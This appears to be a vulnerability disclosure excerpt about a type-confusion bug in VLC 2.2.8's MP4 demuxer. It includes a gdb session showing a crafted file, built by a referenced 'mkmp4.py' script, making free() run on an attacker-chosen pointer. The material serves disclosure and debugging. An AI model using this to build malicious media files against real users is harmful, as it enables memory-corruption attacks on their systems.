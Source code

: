 `p_sample_vide` is 24 bytes larger than `p_sample_soun`, and
`p_qt_image_description` is at the end of the vide struct; i.e. the
pointer to be free()d is read out-of-bounds from potentially
user-controlled memory.

`mkmp4.py` at [2]

```sh
$ uname -imrs
FreeBSD 11.1-RELEASE-p4 amd64 GENERIC
$ ./mkmp4.py file.mp4
$ vlc --version
VLC media player 2.2.8 Weatherwax (revision 2.2.7-14-g3cc1d8cba9)
$ gdb -q --args vlc file.mp4
(gdb) set breakpoint pending on
(gdb) b libmp4.c:1618
No source file named libmp4.c.
Breakpoint 1 (libmp4.c:1618) pending.
(gdb) b libmp4.c:1863
No source file named libmp4.c.
Breakpoint 2 (libmp4.c:1863) pending.
(gdb) r
[...]
Breakpoint 3, MP4_ReadBox_sample_soun (p_stream=0x802ab2710, p_box=0x802a85000) at demux/mp4/libmp4.c:1618
1618        p_box->data.p_sample_soun->p_qt_description = NULL;
(gdb) p p_box->data.p_sample_soun
$1 = (MP4_Box_data_sample_soun_t *) 0x802a79810
(gdb) c
Continuing.

Breakpoint 4, MP4_FreeBox_sample_vide (p_box=0x802a85000) at demux/mp4/libmp4.c:1863
1863        FREENULL( p_box->data.p_sample_vide->p_qt_image_description );
(gdb) p p_box->data.p_sample_vide
$2 = (MP4_Box_data_sample_vide_t *) 0x802a79810
(gdb) p p_box->data.p_sample_vide->p_qt_image_description
$3 = (uint8_t *) 0x1122334455667788 <Error reading address 0x1122334455667788: Bad address>
(gdb) b free
Breakpoint 5 at 0x8019d3ce4
(gdb) c
Continuing.

Breakpoint 5, 0x00000008019d3ce4 in free () from /lib/libc.so.7
(gdb) p/x $rdi
$4 = 0x1122334455667788
(gdb) c
Continuing.

Program received signal SIGBUS, Bus error.
0x00000008019d36f3 in realloc () from /lib/libc.so.7
(gdb) x/i $rip
0x8019d36f3 <realloc+3939>:     mov    rbx,QWORD PTR [rax+rcx*8+0x68]
(gdb) i r
rax            0x1122334455600000       1234605616436084736
rbx            0x1122334455667788       1234605616436508552
rcx            0x5a     90
[...]
(gdb) bt 4
#0  0x00000008019d36f3 in realloc () from /lib/libc.so.7
#1  0x00000008019d3d51 in free () from /lib/libc.so.7
#2  0x0000000806d7fafd in MP4_FreeBox_sample_vide (p_box=0x802a85000) at demux/mp4/libmp4.c:1863
#3  0x0000000806d7fcfd in MP4_BoxFree (s=0x802ab2710, p_box=0x802a85000) at demux/mp4/libmp4.c:3680
```
